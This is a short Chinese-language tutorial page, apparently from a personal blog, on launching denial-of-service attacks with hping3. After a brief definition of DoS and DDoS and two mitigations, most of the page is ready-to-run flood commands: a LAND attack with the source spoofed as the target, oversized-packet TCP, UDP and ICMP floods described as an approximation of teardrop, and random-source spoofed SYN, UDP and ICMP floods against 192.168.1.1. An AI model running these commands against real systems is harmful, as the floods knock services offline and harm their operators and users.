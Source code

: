 ```yaml
---
layout: default
title: 使用hping3进行dos攻击
---
```




# dos攻击是啥？

> * dos 攻击 deny of service <mark>拒绝服务攻击</mark>，就是给你干崩溃
> 
> * <mark>ddos</mark> distributed dos攻击 <mark>分布式拒绝服务攻击</mark>，找很多人干你崩溃
> 
> * 无法根治
> 
> * ai设备进行<mark>数据清洗</mark>，搞掉部分攻击流量
> 
> * 服务器<mark>限流</mark>，不至于被打崩溃，但业务依然被干扰

# land攻击

```bash
# land攻击就是源和目标一致的syn泛洪攻击
# land攻击会产生大量的空连接，消耗系统资源
hping3 192.168.1.1 -p 445 --syn -a 192.168.1.1 --flood
```

# 泪滴攻击

```bash
# 泪滴攻击需要制造分片异常的数据包
# hping3只能构造超大数据包，这并不是真正的泪滴攻击
hping3 192.168.1.1 -p 445 --syn -d 555555 --flood
hping3 192.168.1.1 -p 888 --udp -d 555555 --flood
hping3 192.168.1.1 --icmp -d 555555 --flood
```

# ip spoof随机源泛洪攻击

```bash
hping3 192.168.1.1 -p 445 --syn --rand-source --flood
hping3 192.168.1.1 -p 888 --udp --rand-source --flood
hping3 192.168.1.1 --icmp --rand-source --flood
```


